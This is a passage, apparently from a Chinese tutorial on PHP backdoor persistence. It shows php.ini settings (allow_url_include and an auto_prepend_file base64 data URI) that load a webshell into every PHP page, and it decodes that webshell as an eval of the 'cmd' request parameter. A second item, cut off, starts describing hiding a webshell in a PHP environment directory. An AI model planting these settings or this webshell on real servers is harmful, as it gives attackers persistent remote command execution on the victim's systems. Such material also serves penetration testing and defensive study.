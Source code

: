 3.  **php.ini**  
    修改php.ini，添加如下内容：

    allow\_url\_include=On  
    auto\_prepend\_file=”data:;base64,PD9waHAgQGV2YWwoJF9SRVFVRVNUW2NtZF0pOz8+”  
    重启php后，访问任意php页面都可以自动包含上述webshell，即解码后的

    \<\?php \@eval\(\$\_REQUEST\[cmd\]\);\?>

![](2.png)

4.  **pher**  
    php有个环境变量：  
    ![](3.png)  
    默认该目录不存在，创建即可，然后在该目录下放置一个webshell，然后在web目录写个包含该webshell的代码即可：  